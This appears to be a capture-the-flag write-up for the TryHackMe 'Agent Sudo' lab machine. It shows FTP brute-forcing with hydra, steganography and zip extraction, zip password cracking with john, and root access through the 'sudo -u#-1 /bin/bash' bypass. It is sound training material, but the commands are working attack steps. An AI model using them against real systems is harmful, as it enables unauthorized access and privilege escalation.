```commandline
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-03 03:26:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.216.225:21/
[21][ftp] host: 10.10.216.225   login: chris   password: *******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-03 03:28:06
```

So, we have a username and a password to access the `ftp` server. Let's take a look at what we will find there.

```commandlinec
$ ftp $IP
Connected to 10.10.216.225.
220 (vsFTPd 3.0.3)
Name (10.10.216.225:itchy): chris 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget To_agentJ.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (3.5681 MB/s)
mget cute-alien.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.06 secs (516.0840 kB/s)
mget cutie.png? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
226 Transfer complete.
34842 bytes received in 0.07 secs (463.6496 kB/s)
ftp> bye
221 Goodbye.
```

Used the `mget` command followed with the `*` (asterisks) to grab all files. I had to confirm for each file. Is more handy than using the `get` command. Well, it would be more handy if I had used the command `prompt off`, so I should not have had to confirm for each file. But too late.

So, download 3 files: `To_agentJ.txt`, `cute-alien.jpg`, `cutie.png`

The `To_agentJ.txt` file contains the following text:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture 
inside your directory. Your login password is somehow stored in the fake 
picture. It shouldn't be a problem for you.

From,
Agent C
````
The 2 pictures are these:


### Handling the hidden data in the files

So we have to analyse these file, but I need to do some researches for that.

We have to analyse what these 2 pictures hide into them.

`cute-alien.jpg` request a passphrase.

```commandline
$ steghide info cute-alien.jpg                                                                                         
"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

`cutie.png` seems to contain a zip archive that is encrypted.

```commandline
$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

With `binwalk -e cutie.png` I extracted the data. It created a folder `_cutie.png.extracted `with the following content:

```commandline
ls -lah _cutie.png.extracted/                                                                                        
total 324K
drwxr-xr-x 2 itchy itchy 4.0K Aug  3 23:03 .
drwxr-xr-x 3 itchy itchy 4.0K Aug  3 23:03 ..
-rw-r--r-- 1 itchy itchy 273K Aug  3 23:03 365
-rw-r--r-- 1 itchy itchy  34K Aug  3 23:03 365.zlib
-rw-r--r-- 1 itchy itchy  280 Aug  3 23:03 8702.zip
-rw-r--r-- 1 itchy itchy    0 Oct 29  2019 To_agentR.txt
```

We need to prepare the files for `john`:

```commandline
/usr/sbin/zip2john 8702.zip > hashes_for_john.txt
```

Let's try to crack this zip file!

```commandline
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes_for_john.txt                                                 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
a***n            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE (2021-08-03 23:22) 4.166g/s 136533p/s 136533c/s 136533C/s christal..eatme1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We have some secret message again!

```commandline
$ cat To_agentR.txt                                                                                                    
Agent C,

We need to send the picture to 'Q******x' as soon as possible!

By,
Agent R
```

After some research the `Q******x` seems to be encoded in base64.

```commandline
echo "Q******x" | base64 -d
A****1
```

Let's take a look again to the `cute-alien.jpg` file and try to extract it with the password we just got.

```commandline
$ steghide extract -sf cute-alien.jpg                                                                                  
Enter passphrase: 
wrote extracted data to "message.txt".
```

The file `message.txt` contains very valuable information!

```commandline
$ cat message.txt                                                                                                      
Hi james,

Glad you find this message. Your login password is h**********!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

### Answer the questions below

We can now log in with user `james` and password his password. Found the `user_flag.txt` and `Alien_autospy.jpg` file.

```commandline
$ ssh james@$IP                                                                                                        
james@10.10.166.162's password: 
Permission denied, please try again.
james@10.10.166.162's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  3 21:41:39 UTC 2021

  System load:  0.0               Processes:           94
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.166.162
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls -lah
total 80K
drwxr-xr-x 4 james james 4.0K Oct 29  2019 .
drwxr-xr-x 3 root  root  4.0K Oct 29  2019 ..
-rw-r--r-- 1 james james  42K Jun 19  2019 Alien_autospy.jpg
-rw------- 1 root  root   566 Oct 29  2019 .bash_history
-rw-r--r-- 1 james james  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james 3.7K Apr  4  2018 .bashrc
drwx------ 2 james james 4.0K Oct 29  2019 .cache
drwx------ 3 james james 4.0K Oct 29  2019 .gnupg
-rw-r--r-- 1 james james  807 Apr  4  2018 .profile
-rw-r--r-- 1 james james    0 Oct 29  2019 .sudo_as_admin_successful
-rw-r--r-- 1 james james   33 Oct 29  2019 user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b*****5e8c92a7c04146cfa7a*****c7
```

I have look to that `Alien_autospy`.jpg and can tell you that it's better not to look at it just before eating. I had uploaded this to Google images and had to do a lot of research to get the answer of this file. The `Roswell Alien Autopsy`. You can read more here https://en.wikipedia.org/wiki/Roswell_incident

## Privilege escalation

**Enough with the extraordinary stuff? Time to get real.**

```commandline
$ sudo  -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```commandline
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b5*****55b57d4439e33*****d2

By,
DesKel a.k.a Agent R
```
